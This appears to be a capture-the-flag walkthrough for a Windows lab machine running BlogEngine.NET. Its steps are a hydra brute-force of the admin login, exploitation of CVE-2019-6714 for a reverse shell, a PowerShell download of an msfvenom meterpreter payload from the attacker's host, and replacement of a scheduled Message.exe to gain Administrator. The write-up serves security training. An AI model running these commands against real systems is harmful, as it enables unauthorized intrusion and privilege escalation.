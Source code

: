 # what I learned
- WindowsScheduler

# enumerate
port scanning...
- 80/tcp   open  http
  - /Account/login.aspx?ReturnURL=/admin/ 
    - Login failed
- 3389/tcp open  ms-wbt-server

# foothold
run brup suite and intercept the cookie in Params: Replace username with ^USER^, password with ^PASS^ and adding error message when login with wrong credential in the end (`:Login failed`)
```console
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP -V http-form-post '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=ReUZyiBNjEGKeMibgp4kMp%2BpV8%2FBXT6KJ5yVTiiloqnNrhPnc5%2BMOi0Mhsg8Zuh91AzFdRDfMeq3wDBXOwMOOJZn7Z89Upu2X7b2JfzpJaJgoK%2BHtu0boZwpcK12443Yf5TrM0Zajc1jhbNFRz9ICeBgFtDMzoezB2aXk7IxB%2B0N%2ByTU9Ow1NQ92IUomSFDMm0Xeu9ZTn94jm4%2FRCugqfdfoSq68g0Qg4DMkcnjuZptE%2F3w8MRK8dhh2xfdUTP%2B%2Fo%2FDuQBdvxBuZF15fxPjk2P2SUWYa76pvrRUE9O5VwqrzZnbYhAjTNy2u71XUY6%2FQ1MQhbFO4XdJU1IqK6a2wUlpO5WpNEXM00JQb3iX5HjVuojvy&__EVENTVALIDATION=XZyseVXU202%2BVJwJvA0EQjrNegLpyhRhzoG95ql%2B0xX0Mt%2FRMdQpXHsTMzNRQxFJ1S6cPiKD6o5QjkQjbchWL3z%2BYkwDDyYq5IBfX2mdIwCBodVAKsQQy8R%2FBGZlZjjQ0lVK7hRx2dCQCNCfdQQ7vNjgHgPpxOiFkhRV%2BuvEKSQrClSL&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```
1qaz2wsx

in `/admin/about.cshtml` you will find more infomation about the service, BlogEngine.NET version  3.3.6.0. after some digging, I found:
```
CVE-2019-6714
*
* Path traversal vulnerability leading to remote code execution.  This 
* vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This 
* is caused by an unchecked "theme" parameter that is used to override
* the default theme for rendering blog pages.  The vulnerable code can 
* be seen in this file:
```
the exploit script tell us exackly what we should do
1. download the script and rename it as `PostView.ascx`
2. put load the script at `/admin/app/editor/editpost.cshtml`
3. execute the reverse shell `/?theme=../../App_Data/files`

current reverse shell is not so good, the plan is get **meterpreter** shell: let start by create the meterpreter shell using `msfvenom`:
```console
kali@kali:~/THM/hackpark$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.14.151 LPORT=9696 -f exe -o shell2.exe
```
now in the restricted shell, move to any folder that you will have permission to download/save the our reverse shell (in my case, `c:\Users\Public\Documents`)

```console
cd c:\Users\Public\Documents
c:\windows\system32\inetsrv>cd c:\Users\Public\Documents
dir
c:\Users\Public\Documents>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public\Documents
07/23/2020  08:16 AM    <DIR>          .
07/23/2020  08:16 AM    <DIR>          ..
07/23/2020  08:16 AM    <DIR>          Microsoft
               0 File(s)              0 bytes
               3 Dir(s)  38,400,802,816 bytes free
powershell -command "IEX (New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell2.exe','shell2.exe')" # download reverse shell from our kali
c:\Users\Public\Documents>powershell -command "IEX (New-Object System.Net.WebClient).Downloadfile('http://<ip>:<port>/shell2.exe','shell2.exe')"
dir
c:\Users\Public\Documents>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of c:\Users\Public\Documents
07/23/2020  08:17 AM    <DIR>          .
07/23/2020  08:17 AM    <DIR>          ..
07/23/2020  08:16 AM    <DIR>          Microsoft
07/23/2020  08:17 AM             7,168 shell2.exe
               1 File(s)          7,168 bytes
               3 Dir(s)  38,400,782,336 bytes free
```
now run msfconsole and using `exploit/multi/handler` to wait for reverse shell
```console
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/handler) > set LPORT 9696
LPORT => 9696
msf5 exploit(multi/handler) > run
```
back to our shell, execute our meterpreter reverse shell .exe
```
shell2.exe
c:\Users\Public\Documents>shell2.exe
```
# User + Rooted
We cannot do anything with our privilage: not that there are a user call Jeff on the server. Let using winPEAS to find out more about the server.
```
meterpreter > upload winPEAS-x86.exe
meterpreter > winPEAS-x86.exe
.
.
WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running                                                                    
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])                                                                                  
System Scheduler Service Wrapper
.
.
```
WindowsScheduler is like crontab in Linux. not that can write/create a file on that folder, let find out more about processes so we can use it to escalate to root user.
```console
meterpreter > pwd
c:\Program Files (x86)\SystemScheduler\Events 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler\Events
======================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100666/rw-rw-rw-  1927   fil   2019-08-04 18:05:19 -0400  20198415519.INI
100666/rw-rw-rw-  16286  fil   2019-08-04 18:06:01 -0400  20198415519.INI_LOG.txt
100666/rw-rw-rw-  186    fil   2020-07-23 11:38:28 -0400  Administrator.flg
100666/rw-rw-rw-  182    fil   2020-07-23 11:38:01 -0400  SYSTEM_svc.flg
100666/rw-rw-rw-  0      fil   2020-07-23 11:38:28 -0400  Scheduler.flg
100666/rw-rw-rw-  449    fil   2019-08-04 07:36:53 -0400  SessionInfo.flg
100666/rw-rw-rw-  0      fil   2020-07-23 11:38:01 -0400  service.flg
meterpreter > cat 20198415519.INI_LOG.txt # log
Listing: c:\Program Files (x86)\SystemScheduler\Events
07/23/20 09:14:02,Event Started Ok, (Administrator)
07/23/20 09:14:33,Process Ended. PID:648,ExitCode:4,Message.exe (Administrator)
07/23/20 09:15:03,Event Started Ok, (Administrator)
07/23/20 09:15:34,Process Ended. PID:2264,ExitCode:4,Message.exe (Administrator)
07/23/20 09:16:02,Event Started Ok, (Administrator)
07/23/20 09:16:33,Process Ended. PID:2488,ExitCode:4,Message.exe (Administrator)
07/23/20 09:17:02,Event Started Ok, (Administrator)
07/23/20 09:17:33,Process Ended. PID:1916,ExitCode:4,Message.exe (Administrator)
07/23/20 09:18:02,Event Started Ok, (Administrator)
07/23/20 09:18:33,Process Ended. PID:1248,ExitCode:4,Message.exe (Administrator)
07/23/20 09:19:03,Event Started Ok, (Administrator)
07/23/20 09:19:34,Process Ended. PID:1300,ExitCode:4,Message.exe (Administrator)
07/23/20 09:20:02,Event Started Ok, (Administrator)
07/23/20 09:20:33,Process Ended. PID:2460,ExitCode:4,Message.exe (Administrator)
```
Seem like there is a schedule for a file call `Message.exe` which is executed each 30 sec and so. The plan is we will replace `Message.exe` with a meterpreter shell. The reverse shell will be executed as Root and then bingo, we will get reverse shell with root privilage:
```console
meterpreter > upload /home/kali/THM/hackpark/shell2.exe # upload our shell in the server at c:\Program Files (x86)\SystemScheduler\Events
[*] uploading  : /home/kali/THM/hackpark/shell2.exe -> shell2.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): /home/kali/THM/hackpark/shell2.exe -> shell2.exe
[*] uploaded   : /home/kali/THM/hackpark/shell2.exe -> shell2.exe
meterpreter > mv Message.exe Message.bak # change it .bak
meterpreter > mv shell2.exe Message.exe # change to Message.exe
meterpreter > background # background the session.
```
now let run another meterpreter session
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.14.151:9696 
[*] Sending stage (176195 bytes) to 10.10.139.25
[*] Meterpreter session 7 opened (10.8.14.151:9696 -> 10.10.139.25:49498) at 2020-07-23 12:28:01 -0400
meterpreter > shell
C:\PROGRA~2\SYSTEM~1>echo %username%
echo %username%
Administrator
```
